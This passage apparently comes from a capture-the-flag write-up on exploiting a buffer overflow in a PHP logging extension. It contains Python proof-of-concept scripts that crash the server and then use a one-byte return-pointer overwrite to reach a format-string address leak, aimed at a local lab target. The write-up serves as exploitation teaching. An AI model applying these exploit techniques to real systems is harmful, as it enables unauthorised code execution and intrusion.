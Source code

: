 We write a quick PoC exploiting the buffer overflow which results in a crash in the PHP server.

```python
#!/usr/bin/env python3

from pwn import *
import requests

URL = "http://127.0.0.1:1337"
headers = {
    "CMD_KEY": b"1"
}
params = {
    "cmd": b"1" * 256
}

r = requests.get(URL, params=params, headers=headers)
print(r)
```

We can now look at the protections to see what sort of convuluted hoop we have to jump to get a shell.

```sh
$ checksec php_logger.so
[*] '/home/waituck/htb-business-2022/pwn_superfast/challenge/php_logger.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary found, so we can straight up control the instruction pointer RIP. However, with PIE and NX enabled, this means we need to leak the addresses of where the module is stored if we want to be able to jump to a relative offset of the .text section of the module, since the module offsets would be different with each run. However, we don't have anything that we can print or output to, but another promising function is defined in `php_logger.so`:

```c
__attribute__((force_align_arg_pointer))
void print_message(char* p) {
    php_printf(p);
}
```

This is essentially a thin wrapper around `printf`, if we can somehow jump to that address, we might be able to use it to leak addresses! However, we typically need to know its actual address in memory to return to it, due to PIE. Thankfully, the stored RIP is actually quite close to `print_message` (in fact, it only differs in the least significant byte), and with a one byte overwrite of the stored RIP on the stack, we are able to get to invoke the `printf`, which actually acts on our buffer! We update our PoC to exploit this, as below:

```python
#!/usr/bin/env python3

from pwn import *
import requests

URL = "http://127.0.0.1:1337"
headers = {
    "CMD_KEY": b"1"
}
params = {
    "cmd": xor(b"0x%08x", b"\x01") +  b"\x01" * (146) + b"\xa9" * 1 
}

r = requests.get(URL, params=params, headers=headers)
```